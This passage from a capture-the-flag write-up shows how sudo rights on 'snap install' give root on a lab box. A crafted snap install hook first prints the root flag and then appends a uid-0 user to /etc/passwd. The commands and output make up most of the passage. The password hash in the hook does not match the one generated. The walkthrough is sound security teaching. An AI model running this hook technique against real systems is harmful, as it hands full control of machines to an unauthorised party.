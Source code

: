 We change the command to display the root flag

    :::text
    └─$ COMMAND='cat /root/root.txt'
    cd $(mktemp -d)
    mkdir -p meta/hooks
    printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
    chmod +x meta/hooks/install
    fpm -n test -s dir -t snap -a all meta

    Created package {:path=>"test_1.0_all.snap

    [brucetherealadmin@armageddon tmp.CR7TIBjISj]$ sudo /usr/bin/snap install test_1.0_all.snap --dangerous --devmode
    error: cannot perform the following tasks:
    - Run install hook of "test" snap if present (run hook "install": 59303daefd76582a8731bbc25b7b9c47)

We want a root shell an not just to display the flag. As we can run any command as root we have a few choices:

* Add a root (id 0) user to `/etc/passwd` with a password of our choice
* Add an ssh key to root
* run a reverse shell
* a few others

We will go with the first one. On our kali we use `openssl` to generate a hashed password

    :::text
    openssl passwd -1 -salt ignite pass123
    $1$ignite$LcHWKSHaZ8KUa68dh14V6.

We change our install hook command to add to `/etc/passwd`, regenerate the
snap and copy it to the box.

    :::text
    └─$ cat meta/hooks/install
    #!/bin/sh
    echo 'toto2:$1$ignite$3eTbJm98O9Hz.k1NTdNxe1:0:0:root:/root:/bin/bash'>>/etc/passwd; false

    ┌──(kali㉿kali)-[/tmp/tmp.podJijQ4NH]
    └─$ fpm -n test2 -s dir -t snap -a all meta
    Created package {:path=>"test2_1.0_all.snap"}

    └─$ scp test2_1.0_all.snap brucetherealadmin@10.129.48.89:

We install the snap on the box which create the `toto2` user and we can switch
to it to get a root shell and grab the root flag

    :::text
    [brucetherealadmin@armageddon ~]$ sudo /usr/bin/snap install test2_1.0_all.snap --dangerous --devmode
    error: cannot perform the following tasks:
    - Run install hook of "test2" snap if present (run hook "install": exit status 1)
    [brucetherealadmin@armageddon ~]$ cat /etc/passwd
    root:x:0:0:root:/root:/bin/bash
    bin:x:1:1:bin:/bin:/sbin/nologin
    daemon:x:2:2:daemon:/sbin:/sbin/nologin
    adm:x:3:4:adm:/var/adm:/sbin/nologin
    lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
    sync:x:5:0:sync:/sbin:/bin/sync
    shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
    halt:x:7:0:halt:/sbin:/sbin/halt
    mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
    operator:x:11:0:operator:/root:/sbin/nologin
    games:x:12:100:games:/usr/games:/sbin/nologin
    ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
    nobody:x:99:99:Nobody:/:/sbin/nologin
    systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
    dbus:x:81:81:System message bus:/:/sbin/nologin